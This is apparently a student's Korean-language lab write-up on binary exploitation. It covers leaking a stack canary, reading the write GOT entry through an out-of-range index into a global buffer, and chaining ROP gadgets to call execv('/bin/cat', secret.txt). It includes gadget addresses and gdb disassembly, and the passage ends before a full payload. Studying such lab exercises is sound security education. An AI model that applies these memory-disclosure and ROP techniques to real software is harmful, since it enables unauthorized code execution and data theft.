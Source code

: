 Canary 값을 읽어서 memory id(2byte), modify_cnt(2byte), buf(4byte)를 통해 출력해낸다. (idx = -2)
이제 이걸 가지고 `modify_memo()`에서 BOF를 할 때 canary 값을 쓰고 들키지 않고 넘어간다.

# Lab #3

## 3-1 ``

## 3-2
> Out Range Index 접근을 통한 Memory Disclosure + ROP를 이용한 Expoit

우선 우리가 `substr.bin`에서 얻을 수 있는 ROP Gadget은 다음과 같다.
```
rdi_gadget = 0x401333 // %rdi
rsi_gadget = 0x401331 // %rsi, %r15
```

코드를 보면 다음과 같이 `read()`가 두 번 쓰이는데, 한 번은 Global Variable에 값을 저장하고 한 번은 Stack 영역에 값을 저장한다.
따라서 `3-1`에서 했던 것처럼 첫 번째 `read()`에서 Global Variable에 `execv()`에 전달할 인자들을 세팅해준 다음, 두 번째 `read()`에서 ROP Gadget을 사용하여 `execv(argv[0], argv)`를 실행시켜 secret.txt를 출력해낸다.
```c
	printf("[*] Input a string that you want to slice: ");
    read(0, gbuf, 128); // argv setting in gbuf
    printf("[*] Input the start and end indexes to extract with: ");
    read(0, buf, 128);  // execv(argv[0], argvv)
```

`argv[0], argv[1], argv[2]`의 내용은 다음과 같이 `3-1`과 같으나,
Argument Pointer `argv`를 전달해주는 과정에서 시행착오를 조금 겪었다. `후술`
```c
argv[0] = "/bin/cat";
argv[1] = filepath;
argv[2] = NULL;
```

그럼 이제 `execv()`의 주소를 알아야 되는데, ASLR의 정책에 의하여 이에 해당하는 GOT Entry는 Program이 시작 된 후에 할당되기 때문에 우리는 이를 Program이 시작 된 후에 GOT의 Memory Disclosure를 통해서 알아내야 한다.

기준이 될 GOT는 `write`에 해당하는 GOT로 하겠다.
gdb로 우리가 Disclosure할 Memory 주소를 알아내면 다음과 같이 `0x404020`에 해당하는 주소를 Process가 시작되고 나서 읽어오면 된다.
```nasm
(gdb) disas main
...
0x00000000004011f7 <+113>:   call   0x401040 <write@plt>
...
(gdb) x/i 0x401040
   0x401040 <write@plt>:        jmp    *0x2fda(%rip)        # 0x404020 <write@got.plt>
```

읽어오는 것은 gbuf의 Range를 벗어난 Index 접근을 통하여 가능하다.
다음과 같이 `char gbuf`의 주소는 `0x4040e0`이다.
```nasm
(gdb) x/s 0x4040e0
0x4040e0 <gbuf>:      ""
```
